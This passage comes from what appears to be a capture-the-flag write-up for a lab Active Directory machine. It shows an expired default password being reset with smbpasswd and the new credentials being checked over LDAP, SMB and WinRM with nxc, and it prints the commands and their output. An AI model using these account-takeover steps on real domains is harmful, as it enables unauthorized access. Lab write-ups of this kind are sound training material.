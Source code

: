 This means the account **`Caroline.Robinson`** exists and has the password set to `BabyStart123!`, but the password **must be changed at first login**.

## Step 5: Resetting Expired Password

Since the account **`Caroline.Robinson`** was found with the status `STATUS_PASSWORD_MUST_CHANGE`, we reset the password using the `smbpasswd` utility:
```bash
smbpasswd -U Caroline.Robinson -r 10.10.76.243
```

**Process:**

- Enter old password: `BabyStart123!`
    
- Set new password: `Password123!`

```output
Password changed for user Caroline.Robinson on 10.10.76.243.
```

## Step 6: Validating New Credentials

With the updated credentials for **Caroline.Robinson**, we authenticate across LDAP, SMB, and WinRM.

### LDAP Authentication

```bash
nxc ldap 10.10.120.33 -u 'Caroline.Robinson' -p 'Password123!'
```

**Result:**

```bash
`[+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)`
```

Successful LDAP login confirmed.


### SMB Authentication

```bash
nxc smb 10.10.120.33 -u 'Caroline.Robinson' -p 'Password123!'

```
**Result:**

```output
[+] baby.vl\Caroline.Robinson:Password123!
```

 SMB access confirmed.


### WinRM Authentication

```bash
nxc winrm 10.10.120.33 -u 'Caroline.Robinson' -p 'Password123!'
```
